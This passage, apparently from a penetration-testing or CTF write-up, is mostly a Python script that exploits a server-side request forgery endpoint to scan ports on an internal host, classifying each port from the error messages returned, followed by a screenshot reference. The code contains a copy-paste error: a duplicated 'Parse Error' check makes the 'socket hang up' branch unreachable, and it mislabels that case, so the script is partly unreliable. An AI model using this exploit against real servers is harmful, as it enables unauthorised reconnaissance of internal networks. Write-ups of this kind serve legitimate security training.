 ```python

##start a loop for the ports##
for p in ports:
    try:
	    ##send a request for each port on provided server##
        r = requests.post(url=args.target, json={"url":"{host}:{port}".format(host=args.ssrf,port=int(p))}, timeout=timeout)

		##verbosity##
        if args.verbose:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))

		##show the open port##
        if "You don't have permission to access this." in r.text:
            print("{port:0} \t OPEN - returned permission error, therefore valid resource".format(port=int(p)))

		##if the connection is refused, show that the port is closed##
        elif "ECONNREFUSED" in r.text:
            print("{port:0} \t CLOSED".format(port=int(p)))

		##if given a 404 status code, show that the file does not exist##
        elif "Request failed with status code 404" in r.text:
            print("{port:0} \t OPEN - returned 404".format(port=int(p)))

		##if the error is not being able to parse, then it might be a non-http open port##
        elif "Parse Error" in r.text:
            print("{port:0} \t ???? - returned parse error, potentially open non-http".format(port=int(p)))

		##could be a closed non-http port##
        elif "Parse Error" in r.text:
            print("{port:0} \t OPEN - socket hang up, likely non-http".format(port=int(p)))

		##print the response##
        else:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))

	##catch exceptions##
    except requests.exceptions.Timeout:
        print("{port:0} \t timed out".format(port=int(p)))
```

Running the script:

![](../../03.%20Images/t9-ss15.png)
